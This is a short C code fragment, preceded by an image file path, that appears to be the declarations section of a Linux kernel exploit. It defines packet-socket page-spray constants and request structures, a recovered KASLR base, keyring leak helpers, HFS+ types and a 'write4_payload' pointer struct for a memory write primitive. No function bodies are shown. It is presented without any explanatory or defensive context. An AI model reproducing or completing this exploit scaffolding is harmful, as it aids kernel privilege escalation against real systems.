 ```
#define PGV_8PAGES_SPRAY_NUM 0x100

int pgv_1page_start_idx;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_START_IDX;

uint64_t kaslr_base_recovered;

#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* Each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* Operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* Tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

typedef int32_t key_serial_t;

#define CHUNK 16384

#define __packed __attribute__((packed))

#define HFSPLUS_ATTR_MAX_STRLEN 127

typedef __be32 hfsplus_cnid;
typedef __be16 hfsplus_unichr;
typedef __u32 u32;
typedef __u16 u16;
typedef __u8 u8;
typedef __s8 s8;

struct write4_payload {
    void *next;
    void *prev;
    uint8_t name_offset;
} __attribute__((packed));

uint64_t get_keyring_leak(key_serial_t *id_buffer, uint32_t id_buffer_size);
```